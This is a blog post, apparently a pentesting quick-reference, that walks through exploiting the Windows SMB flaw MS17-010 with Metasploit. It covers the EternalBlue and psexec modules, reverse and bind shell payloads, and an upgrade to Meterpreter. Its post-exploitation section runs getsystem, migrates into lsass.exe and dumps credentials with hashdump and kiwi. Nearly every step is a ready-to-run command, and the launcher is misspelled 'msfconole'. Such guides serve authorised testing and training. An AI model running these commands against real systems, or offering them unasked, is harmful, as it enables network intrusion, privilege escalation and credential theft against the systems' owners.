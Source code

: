 ```yaml
---
layout: post
title: 'Remote Exploit MS17-010'
date: '2021-03-27'
description: 'This article serves as a quick reference to exploiting the MS17-010 with the Metasploit Framework. This article is for educational purposes only.'
coverimage: Remote_Exploit_MS17010.jpg
tags: kali-linux, metasploit, ms17-010, windows
published: true
posttype: article
categories: article
---
```

This article demonstrates how to exploit the MS17-010 vulnerability with the `Metasploit Framework`. This article is for educational purposes only.

Two methods are demonstrated; `with` and `without compromised credentials`. This article does not discuss the vulnerability and its background.

# Method 1 - MS17-010 exploitation without credentials: EternalBlue

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_eternalblue` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_eternalblue
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show targets
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

Configure options for your machine with. 

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

A reverse connection is initiated upon successful exploitation.

For `post-exploitation tips`, see step 6 of the below instructions.

# MS17-010 Exploitation - With credentials: PSExec

This example requires credentials to run. This example is done using a domain-joined target.

<h5 class="step">Step 1 - Launch Metasploit and choose the `ms17_010_psexec` exploit</h5>

```
msfconole
[...]
use exploit/windows/smb/ms17_010_psexec
```

<h5 class="step">Step 2 - Configure options for your target</h5>

Configure your exploit to run with options that are specific to your target. Note that setting the remote port is optional, this is 445 by default

```
show TARGETS
set TARGET <id>
set RHOST <target IP>
set RPORT <target port> (445 by default)
set SMBUSER <user>
set SMBPASS <password>
set SMBDOMAIN <domain>
```

<h5 class="step">Step 3 - Configure options for your machine</h5>

```
set LHOST <your IP>
set LPORT <port of your choice>
```

<h5 class="step">Step 4 - Optional: Configure a payload</h5>

This step is optional. By default, `windows/x64/meterpreter/reverse_tcp` is used.

```
show PAYLOADS
```

Choose and set a payload with:

```
set PAYLOAD <payload>
```

For example, to use a smaller `bind` payload (`stageless`), you can choose:

```
set PAYLOAD generic/shell_bind_tcp
```

<h5 class="step">Step 5 - Exploit</h5>

To run the exploit use:

```
exploit
```

<h5 class="step">Step 6 - Optional: Post-Exploitation</h5>

If you used a non-meterpreter payload, you can upgrade it to Meterpreter using:

```
CTRL + Z (background session)
use post/multi/manage/shell_to_meterpreter
sessions -l
set session <session id>
set LHOST <your IP>
set LPORT <port of your choice>
exploit
```

<b>Note:</b> You may need to run this a few times to upgrade the shell.

Once you have upgraded your shell, you can escalate your privileges.

```
session -i <meterpreter session>
getsystem
```

To migrate process and dump credentials, use:

```
ps
migrate -N lsass.exe
hashdump
load kiwi
creds_all
```